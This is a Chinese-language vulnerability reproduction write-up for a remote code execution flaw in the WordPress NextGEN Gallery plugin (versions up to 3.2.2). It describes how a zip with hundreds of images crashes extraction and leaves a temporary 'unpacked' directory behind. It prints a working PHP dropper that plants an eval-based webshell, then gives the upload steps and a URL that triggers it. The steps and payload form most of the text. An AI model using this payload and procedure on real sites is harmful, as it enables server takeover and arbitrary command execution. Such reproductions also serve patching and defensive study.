 # WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

> 原文：[https://www.zhihuifly.com/t/topic/3241](https://www.zhihuifly.com/t/topic/3241)

# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

## 一、漏洞简介

WordPress插件NextGEN Gallery <= 3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第2步：上传zip压缩包

点击“Add Gallery / Images”然后上传zip压缩包。

![image](img/fe18920760e779c49c953accdc0d14e0.png)

### 第3步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。

![image](img/af864e2ed1d9c8e6ed67d780958f6dde.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```

![image](img/046d02b52811fab72c9cab442e61a853.png)

![image](img/053d19e3d971235f546635323d0c067a.png)